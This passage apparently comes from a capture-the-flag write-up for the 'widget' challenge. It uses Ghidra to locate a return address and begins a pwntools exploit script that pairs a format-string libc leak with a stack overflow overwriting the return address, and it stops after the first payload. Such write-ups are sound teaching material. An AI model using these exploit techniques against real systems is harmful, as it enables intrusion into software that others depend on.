 Looking at ghidra, we can try to return to after the `called` is check and before `Amount` is prompted. This is at address **0x4013e3** of the binary.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption><p>main() in ghidra</p></figcaption></figure>

We can check if this works in our pwntools.

```python
#!/usr/bin/env python3

from pwn import *
import subprocess

def amount(m):
    global p
    p.sendlineafter(b'Amount: ',m)

def content(m):
    global p
    p.sendlineafter(b'Contents: ',m)

elf = context.binary = ELF("./widget",checksec=False)
url,port = "challs.actf.co", 31320

if args.REMOTE:
    p = remote(url,port)
else:
    p = elf.process(aslr=False)

if args.GDB:
    gdb.attach(p)
    
padding = b'A'*32

# first run
payload = b'%33$p|' # leaks libc
payload += b'A' * (32-len(payload))
payload += b'B'*8 # rbp here is needed
payload += p64(0x004013e3) # goes back to Amount:, not main
```